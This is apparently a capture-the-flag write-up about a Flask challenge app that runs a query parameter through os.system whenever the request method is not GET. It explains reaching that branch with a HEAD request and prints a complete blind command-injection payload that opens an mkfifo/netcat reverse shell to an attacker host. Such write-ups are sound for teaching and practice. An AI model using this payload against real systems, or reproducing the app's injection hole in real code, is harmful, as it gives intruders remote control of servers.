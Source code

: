 We were given the source code for the web
```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    c = request.args.get('c', '')
    if not c:
        return "hmm gimme something"

    if request.method == 'GET':
        ''
    else:
        os.system(c)
    return c

app.run(host='0.0.0.0', port=1337)
```
This Flask application has a potential security vulnerability because it allows arbitrary command execution through the ```os.system(c)``` line when the else branch is triggered. 
The input ```url/?c=``` comes directly from the query string, which means that an attacker could inject any command via the URL and execute it on the server.

But in the initial state the web uses a GET method as the request and looking at the source code
```python
def index():
    c = request.args.get('c', '')
    if not c:
        return "hmm gimme something"

    if request.method == 'GET':
        ''
``` 
if the method being use is a GET result we really get that's why w now look a the ```else``` condition
```python
 else:
        os.system(c)
    return c
```
so if we make use of another request method like HEAD, which is a request method that was allowed, we will be able to get the vulnerability. which is command injection

so the payload used was  ```curl -I http://url/?c=`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <attacker IP> <port> >/tmp/f` ``` this payload was used beacuse it was a blind command injection
.
This will get us a reverse shell and we can get the flag
      
